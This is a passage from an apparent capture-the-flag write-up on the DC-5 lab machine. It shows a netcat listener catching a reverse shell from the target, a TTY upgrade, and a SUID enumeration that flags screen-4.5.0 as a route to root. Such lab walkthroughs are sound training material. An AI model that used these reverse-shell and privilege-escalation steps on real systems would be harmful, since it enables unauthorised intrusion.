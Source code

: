 
We can execute any system command on server using it. I execute reverse shell.

![reverse](/assets/img/dc-5/reverse.png)

```bash
┌─[hitesh@parrot]─[~/boxes/vulnhub/dc-5]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.6] 58309
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-5:~/html$ ^Z
[1]+  Stopped                 nc -nvlp 4444
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/dc-5]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~/boxes/vulnhub/dc-5]
└──╼ $nc -nvlp 4444

www-data@dc-5:~/html$ export TERM=xterm
```
# Privsec to Root

Looking at SUID files, `/bin/screen-4.5.0` seem suspicious to me.
```
www-data@dc-5:~/html$ find / -perm -4000 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```
